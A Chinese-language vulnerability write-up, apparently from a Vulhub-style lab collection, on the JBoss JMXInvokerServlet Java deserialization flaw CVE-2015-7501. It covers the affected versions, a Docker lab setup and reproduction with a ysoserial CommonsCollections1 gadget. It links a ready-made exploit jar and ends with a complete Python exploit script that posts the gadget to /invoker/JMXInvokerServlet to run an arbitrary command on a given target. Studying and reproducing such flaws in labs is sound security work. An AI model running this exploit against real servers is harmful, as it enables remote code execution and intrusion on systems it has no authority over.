

# JBoss JMXInvokerServlet 反序列化漏洞 CVE-2015-7501

## 漏洞描述

这是经典的JBoss反序列化漏洞，JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

参考文档：

- https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
- https://www.seebug.org/vuldb/ssvid-89723
- http://www.freebuf.com/sectool/88908.html
- https://paper.seebug.org/312/

## 漏洞影响

```
JBoss AS 4.x及之前版本
```

## 环境搭建

Vulhub启动漏洞环境

```
docker-compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。



## 漏洞复现

JBoss在处理`/invoker/JMXInvokerServlet`请求的时候读取了对象，所以我们直接将[ysoserial](https://github.com/frohoff/ysoserial)生成好的POC附在POST Body中发送即可。整个过程可参考JBoss 5.x/6.x 反序列化漏洞 CVE-2017-12149。

网上已经有很多EXP了，比如[DeserializeExploit.jar](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)，直接用该工具执行命令、上传文件即可。

## 漏洞EXP

```python
#! /usr/bin/env python2

# Jboss Java Deserialization RCE (CVE-2015-7501)
# Made with <3 by @byt3bl33d3r

from __future__ import print_function
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

import argparse
import sys, os
#from binascii import hexlify, unhexlify
from subprocess import check_output

ysoserial_default_paths = ['./ysoserial.jar', '../ysoserial.jar']
ysoserial_path = None

parser = argparse.ArgumentParser()
parser.add_argument('target', type=str, help='Target IP')
parser.add_argument('command', type=str, help='Command to run on target')
parser.add_argument('--proto', choices={'http', 'https'}, default='http', help='Send exploit over http or https (default: http)')
parser.add_argument('--ysoserial-path', metavar='PATH', type=str, help='Path to ysoserial JAR (default: tries current and previous directory)')

if len(sys.argv) < 2:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

if not args.ysoserial_path:
    for path in ysoserial_default_paths:
        if os.path.exists(path):
            ysoserial_path = path
else:
    if os.path.exists(args.ysoserial_path):
        ysoserial_path = args.ysoserial_path

if ysoserial_path is None:
    print('[-] Could not find ysoserial JAR file')
    sys.exit(1)

if len(args.target.split(":")) != 2:
    print('[-] Target must be in format IP:PORT')
    sys.exit(1)

if not args.command:
    print('[-] You must specify a command to run')
    sys.exit(1)

ip, port = args.target.split(':')

print('[*] Target IP: {}'.format(ip))
print('[*] Target PORT: {}'.format(port))

gadget = check_output(['java', '-jar', ysoserial_path, 'CommonsCollections1', args.command])

r = requests.post('{}://{}:{}/invoker/JMXInvokerServlet'.format(args.proto, ip, port), verify=False, data=gadget)

if r.status_code == 200:
    print('[+] Command executed successfully')

```

